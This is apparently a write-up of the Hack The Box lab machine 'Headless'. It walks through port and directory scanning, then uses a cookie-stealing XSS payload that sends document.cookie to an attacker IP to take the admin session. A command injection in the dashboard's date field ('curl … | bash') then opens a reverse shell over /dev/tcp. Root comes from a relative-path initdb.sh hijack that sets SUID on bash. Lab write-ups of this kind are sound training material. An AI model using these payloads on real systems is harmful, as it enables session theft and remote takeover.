




## Enumeration

Just Port 5000 interesting by now:

```bash
sudo nmap -sC -sV --min-rate 5000 -p- -oA headless 10.10.11.8
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 20:53 CET
Stats: 0:01:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:55 (0:01:00 remaining)
Nmap scan report for 10.10.11.8
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:03:29 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/23%Time=65FF332F%P=aarch64-unknown-linux
SF:-gnu%r(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\
SF:.2\.2\x20Python/3\.11\.2\r\nDate:\x20Sat,\x2023\x20Mar\x202024\x2019:03
SF::29\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-L
SF:ength:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPD
SF:WnvB_Zfs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n
SF:<html\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8
SF:\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Con
SF:struction</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-fa
SF:mily:\x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20display:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:justify-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(
SF:0,\x200,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!
SF:DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</hea
SF:d>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x
SF:20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x204
SF:00</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x
SF:20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>
SF:Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.35 seconds
```


## Web enum

Found two directories:
```bash
ffuf -u http://10.10.11.8:5000/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 42ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 142ms]

```

/support looks like this:



/dashboard:



Back again to `/support`



Trying a simple XSS gaves us this:




With the above message sent we can guess somebody is reviewing these attempts. So we capture a request, setup a webserver and send this modified request to `/support`

```bash
POST /support HTTP/1.1 Host: 10.129.230.98:5000 
Content-Length: 136 
Cache-Control: max-age=0 
Upgrade-Insecure-Requests: 1 
Origin: http://10.129.230.98:5000 
Content-Type: application/x-www-form-urlencoded 
User-Agent: <script>new Image().src='http://10.10.14.50/p?c='+document.cookie</script> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 
Referer: http://10.129.230.98:5000/support 
Accept-Encoding: gzip, deflate, br 
Accept-Language: en-US,en;q=0.9 
Connection: close 

fname=test&lname=test&email=test@test.com&phone=0123456789&message=<script>new Image().src='http://10.10.16.11/p?c='+document.cookie</script>
```

And here we go, grabbed admin token:
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [23/Mar/2024 21:07:54] code 404, message File not found
10.10.11.8 - - [23/Mar/2024 21:07:54] "GET /p?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

Now place a payload file in the webserver directory and send again modified payload:
```bash
cat x                 
sh -i >& /dev/tcp/10.10.16.11/1337 0>&1
```
Start a listener
```bash 
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs

(pwncat-env)─(kali㉿kali)-[~/htb/headless]
└─$ pwncat-cs 0.0.0.0:1337
```
Modified payload:
```bash
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=;curl 10.10.16.11/x|bash
```
Catch the shell & grab user flag:
```bash 
received connection from 10.10.11.8:49652                                                                                            
(remote) dvir@headless:/home/dvir/app$ cat ../user.txt
```

## Root

We are able to execute this binary as sudo `/usr/bin/syscheck` 
```bash 
(remote) dvir@headless:/home/dvir$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```

Checking the `/usr/bin/syscheck` 
```bash
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

The file `initdb.sh` is not called via absolute path, so we can create our own `initdb.sh`  
```bash
cat initdb.sh
#!/bin/bash 
chmod u+s /bin/bash
```

Now we can execute the binary with sudo:
```bash
sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05 
Available disk space: 2.1G 
System load average: 0.00, 0.02, 0.00 
Database service is not running. Starting it...
```

Now we can verify the SUID bit is set on bash:
```bash
ls -lah /bin/bash
(remote) dvir@headless:/home/dvir$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.3M Apr 24  2023 /bin/bash
```

And now go for root:
```bash
/bin/bash -p
(remote) root@headless:/home/dvir# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)

root@headless:/home/dvir# cat /root/root.txt
```
